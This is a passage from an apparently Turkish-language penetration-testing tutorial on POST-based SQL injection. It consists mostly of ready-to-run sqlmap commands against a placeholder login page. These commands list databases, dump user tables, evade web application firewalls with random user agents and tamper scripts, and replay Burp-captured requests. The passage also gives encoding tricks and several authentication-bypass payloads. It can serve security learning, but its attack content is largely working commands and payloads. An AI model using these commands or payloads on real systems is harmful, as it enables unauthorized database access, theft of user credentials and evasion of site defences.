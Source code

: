 ```plaintext
✅ --dbs: Veri tabanı adlarını listeler.
```
🔹 2. Kullanıcıları Çekme
Eğer açık varsa, kullanıcı adlarını çekmek için:
bash
```bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --dump
```
🔹 3. WAF Bypass (Güvenlik Duvarı Aşma)
Eğer güvenlik duvarı varsa, şu parametreler eklenebilir:
bash
```bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --random-agent --tamper=space2comment
```

```plaintext
✅ --random-agent: Rastgele User-Agent kullanarak tespit edilmesini zorlaştırır.
✅ --tamper=space2comment: WAF tarafından filtrelenen boşlukları yorum satırına çevirir.
```

4️⃣ Proxy Kullanarak SQLmap ile POST SQLi Testi
Bazı durumlarda, siteyi Burp Suite üzerinden proxy ile analiz etmek daha iyi olur.
Burp Suite'i açın ve proxy dinleme portunu ayarlayın (Örn: 8080).
Tarayıcı üzerinden giriş yapın ve POST isteğini Intercept edin.
POST isteğini kaydedin ve SQLmap kullanarak test edin:
bash
```bash
sqlmap -r request.txt --dbs
```
📌 Açıklama: request.txt dosyası Burp Suite’ten kaydedilen ham HTTP isteğini içerir.

5️⃣ POST SQL Injection Bypass Teknikleri
Eğer bazı filtreleme mekanizmaları varsa, şu yöntemler kullanılabilir:
🔹 1. Karakter Kaçırma (Encoding)
Bazı filtreleme sistemleri belirli karakterleri engelleyebilir. Bunları aşmak için:
URL Encoding: %27 (' yerine)
Hex Encoding: 0x61 (a yerine)
Base64 Encoding
Örnek:
plaintext
```plaintext
username=admin%27+OR+1%3D1+--
```

🔹 2. Inline Query Manipülasyonu
Bazı sistemler tırnakları engeller, bu yüzden şu yöntemlerle test edilebilir:
sql
```plaintext
username=admin' OR '1'='1'--
username=admin" OR "1"="1"--
username=admin') OR ('1'='1'--
```


📌 SONUÇ
✅ Manuel Testler: URL ve form girişlerinde SQL komutlarını deneyin.
✅ SQLmap ile Test: SQLmap kullanarak POST tabanlı SQLi açıklarını analiz edin.
✅ WAF ve Filtre Bypass: Encoding ve tamper tekniklerini kullanarak güvenlik duvarlarını aşın.
